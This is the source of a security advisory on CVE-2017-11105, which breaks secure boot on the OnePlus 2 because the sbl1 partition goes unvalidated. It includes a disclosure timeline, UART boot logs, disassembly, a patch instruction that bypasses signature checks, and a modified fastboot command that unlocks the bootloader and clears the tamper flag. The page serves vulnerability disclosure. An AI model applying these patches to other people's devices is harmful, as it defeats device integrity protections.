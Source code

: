 ```yaml
---
layout: vuln
timeline:
    - type: 'add'
      date: '2017-06-22'
    - type: 'report'
      date: '2017-06-26'
    - type: 'vendor-ack'
      date: '2017-06-30'
      arg: 'deadline extended'
    - type: 'wont-fix'
      date: '2017-07-05'
      arg:  '"About to reach the product''s lifecycle"'
    - type: 'deadline'
      date: '2017-07-06'
    - type: 'cve-request'
      date: '2017-07-07'
    - type: 'cve-assign'
      date: '2017-07-08'
    - type: 'release'
      date: '2017-08-01'
    - type: 'deadline-extension'
      date: '2017-09-24'

cve: 'CVE-2017-11105'
severity: 'critical'
alephid: ALEPH-2017026
date: '2017-08-01'
title: 'OnePlus 2 Lack of SBL1 Validation Broken Secure Boot'
product: 
     - OnePlus 2
credit: roeeh
---
```

OnePlus 2 (a 2015 Qualcomm Snapdragon 810 device) successfully boots with a tampered Secondary Bootloader (`sbl1`) partition although it is digitally-signed, hence it is not validated by its Primary Bootloader (PBL), maybe due to lenient hardware configuration.

<div class="highlighter-rouge"><pre class="highlight">
<code><span class="nc"> [pbl]</span>
  `-.<span class="rd">
    [sbl1]</span>
     `-.<span class="nc">
       [aboot]</span>
       |`-.
       |  <span class="nc">[...]</span>
       |-<span class="nc">[tz]</span>
       |-<span class="nc">[rpm]</span>
       |-<span class="nc">[pmic]</span>
       .
       .
</code></pre>
</div>
Attackers capable of tampering with the `sbl1` partition can then disable the signature validation of the rest of the bootloader chain and other SBL-validated partitions such as TrustZone and ABOOT.

<div class="highlighter-rouge"><pre class="highlight">
<code><span class="nc"> [pbl]</span>
  `-.<span class="rd">
    [sbl1</span>*<span class="rd">]</span>
     `-.<span class="rd">
       [aboot]</span>
       |`-.
       |  <span class="rd">[...]</span>
       |-<span class="rd">[tz]</span>
       |-<span class="rd">[rpm]</span>
       |-<span class="rd">[pmic]</span>
       .
       .

* - Modified as per our PoC
</code></pre>
</div>

Equivalent partitions of older OnePlus devices ([One](https://forums.coronalabs.com/topic/60894-phones-that-have-no-secure-boot-not-locked-bootloader/)/X) have no digital signatures at all, and therefore are vulnerable as well, however, there was no apparent attempt to even protect them.

## Proof-of-Concept ##

The goal of our PoC, whose results are available in our [repo](https://github.com/alephsecurity/research/tree/master/CVE-2017-11105), is to disable the signature validation (implemented by SBL) of the rest of the partitions such as TrustZone and ABOOT.

In order to find the exact routine within the `sbl1` image that does that, we first discovered the UART ports exposed on the OnePlus 2 board, by simply probing the available ones using our beloved [Logic Analyzer](https://www.salae.com/):

!["OnePlus 2 UART ports"](/assets/img/opo2uart.png)

Booting with authentic partitions results in the following debug messages through UART:
```
 B -    274561 - SBL1, Start
 B -    281728 - scatterload_region && ram_init, Start
 B -    296490 - boot_flash_init, Start
 D -        30 - boot_flash_init, Delta
 B -    297039 - boot_config_data_table_init, Start
 D -      3629 - boot_config_data_table_init, Delta
 B -    306067 - Image Load, Start
 D -     14060 - PMIC Image Loaded, Delta
 B -    320097 - sbl1_ddr_set_params, Start
 D -       579 - sbl1_ddr_set_params, Delta
 B -    326136 - pm_device_init, Start
 B -    328607 - PON REASON:PM0:0x2000000a0 PM1:0x2000000a0
 D -     37332 - pm_device_init, Delta
 [...]
 B -    763720 - Image Load, Start
 D -     36020 - APPSBL Image Loaded, Delta
 B -    799740 - sbl1_efs_handle_cookies, Start
 D -       457 - sbl1_efs_handle_cookies, End 
 B -    805383 - RPM sync cookie updated
 B -    808921 - SBL1, End 
 D -    536708 - SBL1, Delta
 Android Bootloader - UART_DM Initialized!!!
```
Booting with tampered SBL-validated partitions (e.g. `aboot`, `tz`), however, results in the following error (or similar):
```
B -    205997 - SBL1, Start
B -    213317 - scatterload_region && ram_init, Start
B -    227896 - boot_flash_init, Start
D -        30 - boot_flash_init, Delta
B -    228475 - boot_config_data_table_init, Start
D -      3599 - boot_config_data_table_init, Delta
[...]
B -   1184406 - Qsee Execution, Start
D -     80184 - Qsee Execution, Delta
B -   1436458 - Image Load, Start
D -     73871 - RPM Image Loaded, Delta
B -   1510573 - Signal PBL to Jump to RPM FW
B -   1512037 - Image Load, Start
D -      2562 - WDT Image Loaded, Delta
B -   1518107 - Image Load, Start
B -   1683996 - Error code 302e at /work/home/jenkins/14049_user_MP_HYDROGEN/MODEM/MSM8994/msm8994/boot_images/core/boot/secboot3/src/boot_elf_loader.c Line 829
```
By back-referencing the error string with IDA we can easily pinpoint the SBL function which validates the rest of the chain:

```
ROM:00000000FEC0E908 loc_FEC0E908                            ; CODE XREF: sub_FEC0E89C+1Cj
ROM:00000000FEC0E908        MOV             X0, X19
ROM:00000000FEC0E90C        BL              sub_FEC0F9A0
ROM:00000000FEC0E910        CBZ             W0, loc_FEC0E934
ROM:00000000FEC0E914        ADRP            X0, #off_FEC7FE28@PAGE
ROM:00000000FEC0E918        LDR             X3, [X0,#off_FEC7FE28@PAGEOFF]
ROM:00000000FEC0E91C        ADRP            X0, #(aSignalPblToJum+0x16) ; -
ROM:00000000FEC0E920        ADD             X0, X0, #aWorkHomeJen_19@PAGEOFF ; "/work/home/jenkins/14049_M_OOS_user_MP2"...
ROM:00000000FEC0E924        MOV             W1, #0x33D
ROM:00000000FEC0E928        MOV             W2, #0x302E
ROM:00000000FEC0E92C        BLR             X3
ROM:00000000FEC0E930
ROM:00000000FEC0E930 loc_FEC0E930
ROM:00000000FEC0E930        B               loc_FEC0E930
ROM:00000000FEC0E934
ROM:00000000FEC0E934 loc_FEC0E934                            ; CODE XREF: sub_FEC0E89C+74j
ROM:00000000FEC0E934        LDR             X19, [SP,#0x30+var_28]
ROM:00000000FEC0E938        LDP             X20, X21, [SP,#0x30+var_20]
ROM:00000000FEC0E93C        LDP             X22, X30, [SP,#0x30+var_10]
ROM:00000000FEC0E940        ADD             SP, SP, #0x30
ROM:00000000FEC0E944        RET
ROM:00000000FEC0E944 ; End of function sub_FEC0E89C
```

Notice the spin-lock @ `0xFEC0E930`. Quick patching of the call @ `0xFEC0E90C` with `MOVZ W0, #0` will avoid the failing path. 
And indeed, booting with tampered `aboot` and `tz` now succeeds:

```
B -    276757 - SBL1, Start
[...]
D -      7564 - QHEE Image Loaded, Delta
B -    760548 - Image Load, Start
D -     31690 - QSEE Image Loaded, Delta
[...]
D -     36021 - APPSBL Image Loaded, Delta
B -   1102178 - sbl1_efs_handle_cookies, Start
D -       457 - sbl1_efs_handle_cookies, End
B -   1107790 - RPM sync cookie updated
B -   1111420 - SBL1, End
D -    836920 - SBL1, Delta
Android Bootloader - UART_DM Initialized!!!
[50] project name got 14049
[...]
[1130] lk fg_volt = 4038
[1130] Backlight 1
[1670] WARM: power_on_reason  is HARD_RESET [0x21]
[1680] WARM: power_on_reason  is PON1 [0x21]
[1680] WARM: power_off_reason  is KPDPWR_N [0x80]
[1850] Channel alloc freed
[1870] Jumping to kernel via monitor
```

To prove we can execute code within `aboot`, we have also modified one of the fastboot oem commands, made it temporarily unlock the bootloader, and turn off the device tampering flag:
```c
int __fastcall cowabunga_F92C60C(int a1, int a2)
{
[...]
  dword_F978FA4 = 1;    // unlocked
  dword_F978FA8 = 0;    // tampered
  FAIL("pizza",);
[...]
}
```
The result is as follows:
```terminal
$ fastboot oem device-info 2>&1 | grep Device
(bootloader)    Device tampered: true
(bootloader)    Device unlocked: false
(bootloader)    Device is_verified: false

$ fastboot oem cowabunga
...
FAILED (remote: pizza)
finished. total time: 0.020s

$ fastboot oem device-info 2>&1 | grep Device
(bootloader)    Device tampered: false
(bootloader)    Device unlocked: true
(bootloader)    Device is_verified: false
```
